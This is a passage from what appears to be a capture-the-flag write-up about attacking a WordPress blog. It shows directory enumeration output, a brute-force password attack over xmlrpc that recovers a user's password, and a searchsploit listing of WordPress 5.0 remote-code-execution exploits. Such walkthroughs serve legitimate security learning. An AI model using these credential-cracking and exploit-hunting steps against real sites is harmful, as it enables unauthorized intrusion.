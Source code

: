 ```
wp-includes             [Status: 301, Size: 310, Words: 20, Lines: 10]
xmlrpc.php              [Status: 405, Size: 42, Words: 6, Lines: 1]

```

Once again gentlemen...we found nothing useful!

That is where I had the brilliant idea..to focus!

It's a fricking wordpress blog! how do we usually deal with those?

- plugins (#1 reson for wordpress bad reputation)

- Crack admin password and abuse dashboard's php pages

We have two users so far (kwheel and bjoel)

Lets crack them...seems like it's the mom that got a weak one

```
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - kwheel / cutiepie1                                                                                                                                                                                                              
Trying kwheel / adelina Time: 00:03:35 <                                                                                                                                                           > (2865 / 14347257)  0.01%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: kwheel, Password: cutiepie1

```

Geez that was faster than earlier! now I login with those and access the dashboard!

Aaaaand i could not do much...we can't edit the pages! how am I supposed to put a shell in there?

Maybe there is an authenticated vulnerability we can explot...

Seems like the version 5.0 is filled with them...

```
└──╼ $searchsploit wordpress 5.0
-----------------------------------------------------------------------
 Exploit         Title                                       |  Path
---------------------------------------------------------------------------------
WordPress 5.0.0 - Image Remote Code Execution                | php/webapps/49512.py

WordPress Core 5.0 - Remote Code Execution                   | php/webapps/46511.js

WordPress Core 5.0.0 - Crop-image Shell Upload (Metasploit)  | php/remote/46662.rb
                                                                             
...

--------------------------------------------------------------------
```

Found alot but 3 for RCE (one is a metasploit module)
